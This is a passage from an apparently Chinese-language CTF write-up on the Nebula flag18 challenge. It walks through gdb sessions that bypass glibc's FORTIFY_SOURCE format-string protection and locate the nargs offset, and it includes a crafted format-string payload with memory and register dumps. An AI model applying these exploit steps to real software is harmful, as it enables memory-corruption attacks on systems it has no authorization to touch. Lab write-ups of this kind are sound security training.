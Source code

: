 ```
(gdb) x/x $ecx+$eax*4
0xbfb8444c:     0x00000004
```

验证无误，这个偏移开了ASLR，也不会变化，后续进行编写EXP，可以重新把ASLR打开。

```
(gdb) c
Continuing.
flag18: vfprintf.c:1823: _IO_vfprintf_internal: Assertion `s-&gt;_flags2 &amp; 4' failed.

Program received signal SIGABRT, Aborted.
0x40020416 in __kernel_vsyscall ()
```

成功修改`_IO_FLAGS2_FORTIFY`后，程序会提示`Assertion `s-&gt;_flags2 &amp; 4' failed`报错。此时成功绕过第一层保护。

第二步：确定`nargs`的偏移。这里我们输入一个`0xdeadbeef`作为标记（转成10进制为3735928559）。

```
(gdb) r -d out -vvv
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/flag18/flag18 -d out -vvv

Breakpoint 1, 0x40068140 in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) c
Continuing.
site exec %1$*3735928559$x %1073741824$

...

Program received signal SIGSEGV, Segmentation fault.
0x4006927a in vfprintf () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r
eax            0xffffffff       -1
ecx            0x44d5a350       1154851664
edx            0x7ab6fbbc       2058812348
ebx            0x4019fff4       1075445748
esp            0x44d5a330       0x44d5a330
ebp            0xbf8cab18       0xbf8cab18
esi            0xbf8ccb40       -1081291968
edi            0x7ab6fbcc       2058812364
eip            0x4006927a       0x4006927a &lt;vfprintf+4426&gt;
eflags         0x10286  [ PF SF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) find 0xbf8c0000, 0xcbf8cffff, 0xdeadbeef
0xbf8ca678
warning: Unable to access target memory at 0xbf8ca679, halting search.
1 pattern found.
(gdb) x/x 0xbf8ca678
0xbf8ca678:     0xdeadbeef
(gdb) p/d ($ebp-0xbf8ca678)
$5 = 1184
```
